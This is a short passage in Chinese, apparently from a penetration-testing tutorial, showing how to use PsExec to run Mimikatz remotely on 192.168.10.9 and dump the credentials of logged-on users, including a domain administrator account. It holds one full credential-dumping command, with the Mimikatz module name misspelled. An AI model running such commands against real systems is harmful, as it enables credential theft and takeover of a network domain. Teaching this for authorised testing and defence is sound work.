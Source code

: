 图 30：将 mimikatz.exe 复制到新目标

使用`PSexec`，我们将查看转储当前登录用户凭据。这可以通过以下命令完成：

```
psexec.exe \\192.168.10.9 -accepteula cmd /c (cd c:\tools ^& mimikatz.exe "privilege::debug" "seckurlsa::logonpasswords" "exit")
```

在这个命令中，我们告诉`PSexec`在远程系统上运行 Mimikatz 命令。`-accepteula`命令非常重要，因为这将阻止远程系统上的 EULA 提示出现：

![](img/48ab34c0-243a-4b49-b876-83da3a361a9a.png)

图 31：使用 PSexec 远程执行 mimikatz 命令

一旦我们有了输出，我们将看到有一个高权限账户登录，即`domainadmin`：

![](img/2c4720ed-0027-4370-9d41-9c7d205896f7.png)
